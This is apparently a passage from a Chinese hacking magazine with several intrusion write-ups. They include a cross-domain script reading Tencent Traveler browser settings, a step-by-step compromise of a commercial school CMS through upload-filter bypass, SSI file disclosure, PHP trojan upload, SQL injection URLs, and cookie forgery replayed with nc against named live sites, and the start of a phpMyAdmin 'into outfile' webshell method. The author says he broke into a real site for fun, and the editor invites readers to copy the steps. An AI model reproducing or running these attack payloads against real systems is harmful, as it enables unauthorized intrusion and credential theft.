

毫无疑问，这种配置信息的修改应该只是只能从本地进行的，也就是说只有浏览器的使用者才有权利修改该配置信息，其他人一律禁止。但是，腾讯 Tencent Traveler 浏览器在处理这个问题上好像没有深入理解 IE 内核的安全机制，导致我们可以制造一个网页，用户只要一旦访问该网页就可以跨域修改用户的腾讯 Tencent Traveler 浏览器配置信息。

为了安全与个别原因，我这里只给大家提供一段跨域查看用户腾讯 Tencent Traveler 浏览器配置信息的网页代码：

```html
<script>
function win()
{
    x=window.open("tt:config");
}
window.onload=function()
{
    for(i=0;i<document.links.length;i++)
    {
        document.links[i].href='javascript:win()'
    }
}
</script>
<a href="dd">点击这里即可查看本地TT浏览器配置信息</a>
```

这是一段非常简单的代码，只是简单利用了一个弹窗就可以读取到腾讯 Tencent Traveler 浏览器的配置信息。作为处于本地域范围的腾讯 Tencent Traveler 浏览器配置信息，由于没有严格的安全机制限制，导致可以被远程访问，这种危害不言而喻。

在我的测试中，处于本地域范围的腾讯 Tencent Traveler 浏览器配置信息甚至是可以被修改的！无论是 4、5 版本的 Tencent Traveler 浏览器，还是现在最新更新的 4.6 版本 Tencent Traveler 浏览器，都可以被恶意跨域修改，问题的严重性也就显现出来。

在官方没有正式解决该问题以前，我先暂时不放出利用代码，有兴趣的朋友可以自行研究，期待腾讯 Tencent Traveler 浏览器能够更加完善。有任何问题，欢迎大家到论坛来一起讨论，或者访问我的博客 http://hi.baidu.com/digexploit。

**编辑点评：** 类似的安全漏洞出现在腾讯 Tencent Traveler 浏览器上，那么其它诸如“傲游”、“世界之窗”浏览器是否也存在呢？大家可以自行研究下。另外，该类漏洞的利用还不是非常熟悉，期待有更详细的文章出来。

## 对一“大型”学校商业 CMS 的安全性分析


**LCX言语：** 编辑者本期的文章，结合我近期的经历，很有感慨……好多人在文章里动不动就说“无聊！给我个0day吧！”，好像入侵网站有了0day就会无往不利。但是我反问一句，你入侵的时候尽力了吗？我看这个感觉是因为我最近整理我的工具列表，发现自己竟然有好多工具只是收集下来，却从来没有用过。我打算试用一下没有用过或熟悉一下有些工具的用法，结果发现还有部分工具无法学会使用。像 Brutus-AET2 的暴力破解表单，百试不爽其用法，真的不知道它是如何破解表单的。试了一下破解 HTTP（Basic auth），却是非常爽快的破了一个网站……为此，我得出的结论就是，如果没有能力得到 0day，那么就尽力学好、掌握好你已有的资源。

**本文最重要的是作者白盒分析源码后的入侵思路**

无聊时准备拿一个站解闷，打开主页后观察分析应该是采用了某套 CMS。在 GOOGLE 的帮助下，从网上找到了 一份未注册的版本，通过黑盒＋白盒的操作，终于拿下了目标站点。随后把这套官方传说 1500 RMB 的注册版 CMS 给 down 了下来分析了一下，发现了许多安全漏洞，特写出来与大家分享。班门弄斧，见笑。

先大概说说这套 CMS，官方名称：大型学校网站源码学校网页模板正式版，其实是尘缘的修改版本，广告效应还是蛮大的，如图1，是搜索结果。



N 年前尘缘暴出了几个高危漏洞，其中一个就是可以注册成超级管理员，其原理就是修改在数据库中用来标识超级管理员与普通注册用户所用到字段 `purview` 与 `oskey` 的值。利用方法就是先注册一个普通用户，抓取数据，将 `purview=1&oskey=selfreg` 修改为 `purview=99999&oskey=super` 后保存为文本，再用 nc 提交就可以注册成一个超级管理员了。在这个修改版本中，注册漏洞被修补，代码如图2，程序员还特别注释了防止外部提交，看来他也是深谙此道呀。

```php
00: ...
01: purview=1
02: oskey=selfreg
03: if($level==1)
04: if fabiao==1 then
05: $jiayong=1
06: else
07: $jiayong=0
08: end if
```

尽管管理员煞费苦心地将常见的漏洞都进行了解析，在对 SQL 注入的防范上更是下了功夫，有的变量竟经过 N 个函数的处理过滤，但还是难逃安全的噩梦。下面就让我们开始代码分析之旅吧。

### 图上传——再见熟悉的倩影

尘缘熟悉的导致上传漏洞的 `uploadfaceok.asp` 文件仍然存在，代码如图3，我们来简单分析下此处的上传漏洞。造成漏洞的原因是逻辑错误，先定义 `EnableUpload` 变量为 `false`，然后在行 63 处进行扩展名比较，如果是符合条件，允许上传的扩展名，则将 `EnableUpload` 赋值 `true`，然后跳出 `for` 循环，再判断扩展名是否为 `asp` 等。最后比较 `EnableUpload` 变量值，为 `true` 则保存文件。



利用方法也很简单，我们构造一个有两个上传框的 htm 文件，同时上传一个 jpg 图片与一个非定义的危险文件。在行 68 处的代码就是禁止上传的几种危险文件类型，过滤的差不多了。网上流传的加点法上传会使我们上传的文件名没有后缀，而加空格也无法上传成功，像加“#”等字符，由于文件不能成功保存也是失效的。

此时，我们只有上传其它主机支持解析的文件类型，像 `htr`、`stm`、`shtml` 等后缀。文件内容为：`<!--#include file="../../../conn.asp"-->`，然后查看我们上传的 `stm`、`shtml` 文件的源代码就能看到 `conn.asp` 的源代码了，如图4。



如果是 mdb 的数据库我们就可以下载，不过此 CMS 数据库加了防下载处理，而且为 asp 格式，所以无法下载了。如果主机支持 php，就上传一个 php 木马，如图5，就是我拿目标网站所上传的 php 木马。



### Sql注入——百密最终难免一疏

在 Zongg 文件夹下有一个广告管理系统，文件 `daima.asp` 用来显示广告链接信息，id 值没有过滤，相关代码如下：

```asp
if trim(request("id"))<>"" then
  adsconn.open adsdata
  set adsrs=server.createobject("adodb.recordset")
  adssql="Select top 1 intro from [ads] where id="&trim(request("id"))&" order by time"
  adsrs.open adssql,adsconn,1,1
  response.write adsrs(0)
end if
```

由于广告系统是单独用到的后台与数据库，而后台又很简陋，拿不下 webshell。当然我们可以尝试社工，用得到的用户名密码去登录主站的管理后台。另外，在此广告系统中，并没有加容错语句，经典的爆库就出现了，如图6，分别是我本机的测试与网上找的一个站。



看到这里就让我们把思路再拓展一下。如果在有些情况下，上文提及的某些条件不能满足或者只满足某一部分该怎么办呢？比如目标主机不支持其它 web 语言，上传 stm 文件获得的数据库是 asp 格式的，防下载处理只能让我们的下载望洋兴叹了。

如果遇到这种情况又该如何下手？俗话说，条条大路通罗马，如果我们成功上传了 stm 文件并获取到数据库的相对地址，再结合上面的爆库，就能得到数据库在服务器上的物理地址，柳暗花明就出现了。这样，我们就可以利用这个珍贵的站点来进行跨库猜解（能注入的地方确实很少，所以此处就凸显贵重啦）。



由于存在注入的语句后面有“order by time”，所以 union 查询就失效了，只能用猜解的方式将用户名密码猜解出来。具体的猜解方法与手工猜解完全一致，只不过在后面加上 “in ‘数据库物理地址’”。比如判断表名的猜解语句为：`http://localhost.672/t/Zongg/daima.asp?id=53%20and%20(select%20count(passwd)%20From%20wygkcn_Admin+in+'数据库地址')<>0`。

手工猜解太累了，修改了下以前从网上抄写的一个 vb 工具，很快就将用户名、密码猜解出来了，如图7。

### Cookie 欺骗 + sql注入——双剑齐出

可能有的朋友会说上面的利用方式有点另类，必须支持解析 stm 等类型文件以便成功找到数据库的相对地址，而且爆库错误信息没被屏蔽才能成功的将数据库物理地址爆出来。的确，上面的利用方法比较鸡肋，在我的测试中找了好久才找到存在爆库的站，许多站点的错误信息都被服务器给屏蔽掉了。下面，我们再来看看更强悍的，cookie 欺骗与 SQL 注入的完美结合。

在 `wsbmddtypo.asp` 文件中，从行 5 开始的代码如下：

```asp
<!--#include file="chkuser.asp" -->
<%
if not (request.cookies(eChsys)("ManageKEY")="super" or request.cookies(eChsys)("KEY")="super") then
    Show_Err("对不起，您的后台管理权限不够操作！")
    response.end
else
```

先包含一个 `chkuser.asp` 用来判断用户是否为注册用户或者管理员，是用到的 session 判断。如果我们在注册用户登录成功后，就满足了 session 要求，而下面代码对超级管理员的判断却只用到了 cookie，这下就有了我们的 cookie 欺骗。先别欺骗，接着往下看，在行 50 处存在注入，代码如下：

```asp
set rs=server.CreateObject("adodb.recordset")
sid=request("id")
sql="select * from wsbm where id="&sid
rs.open sql,conn,1,3
```

可以看到，id 未做任何判断就送到了数据库进行查询，我们构造以下语句：`wsbmddtype.asp?id=1+and+1=2+union+select+1,username,passwd,purview,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28+from+wygkcn_Admin`，这样就能直接 union 查询出超级管理员的用户名与 md5 加密的密码。

下面来看我们的利用过程：注册一个用户名 fjhh，密码 fjhhfjhh 的用户，如图 8。用注册的用户名登录成功后，直接打开 `http://asmz.sds.cn/wsbmddtype.asp?id=1+and+1=2+union+select+1,username,passwd,purview,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28+from+wygkcn_Admin`，会出现权限不够，如图 9。

打开 WebXcExpert，选中刚打开的页面，刷新，将抓取到的数据保存为 up.txt，接下来就修改 cookie 了。将 `purview` 与 `KEY` 的值分别修改为 `purview=99999`，`KEY=super`，再添加 `&ManageKEY=super`。保存后用 nc 提交：`nc www.asmz.sds.cn 80 < up.txt > down.htm`，打开生成的 down.htm，如图 10，超级管理员的用户名和 md5 的密码就被查询出来了。

这次代码的分析就到这里，利用方法一环扣着一环，哪里断掉都无法继续进展下去。社会在进步，技术在革新，攻防对立一直都在发展。

> 【文中涉及到的工具和代码已收录到本期光盘】

**编辑点评：** 这篇文章怎么说好呢，这个大型学校网站源码系统系统的漏洞还是有一点点挑战性的，好像能用到的技巧恰巧都可以应用得上，而且用起来较顺手。作者写这篇文章后，我猜他心里还是很有成就感的。我有个建议，有一点注入基础的朋友，就向作者文章照做一下，肯定可以提高你的注入技巧的。







## 网站目录没有写入权限的终极入侵方法

本文很明显写的是一个对技巧发散思维的应用

快毕业了，好多的东西要学，不期望自己能够成为神话，只冀期与每天的进步。今天给大家讲讲在 web 目录没有写入权限的时候如何获得 webshell，或者运行个比较大的脚本程序。因为之前经常遇到这样的情况，后来通过思考总结还是找到了如何在特别变态的服务器上获得 webshell 的方法。

一日 Dream 说他有个 php 的网站拿不到 shell，让我帮忙看看。通过 phpMyAdmin 进去了，路径也爆出来了，能够导出一句话木马，可是在用一句话客户端上传大马的时候出了问题，总是返回空白，而且 cmd 命令也不能执行，只能读取 web 目录下的文件和文件夹，权限被框死在那里。

这样的情况我想好多人都遇到过，估计大部分人都会选择放弃的，刚开始我也是这么认为的，可是人不能不进步吧？摸索了一下，结合以往的入侵经验，还真找到了一个 php 环境下万能的方法。

还是从 Dream 给的网站说起，进 phpMyAdmin 看了下，是 root 的权限，如图 1 所示，这就好了，这个比 web 用户的权限高，至少我们可以向 web 目录导出文件，而且有可能的话可以试试 UDF 导出提权。



可是问题来了，我们如何把 UDF 提权的工具给传上去呢？一句话木马办不到，因为权限是继承 web 用户的。试了下在 phpMyAdmin 新建一个表，然后把大马插入到这个表里面，接着……

## 西线无战事

在 phpMyAdmin 里执行 SQL 语句，用 `into outfile` 导出到 Web 目录。

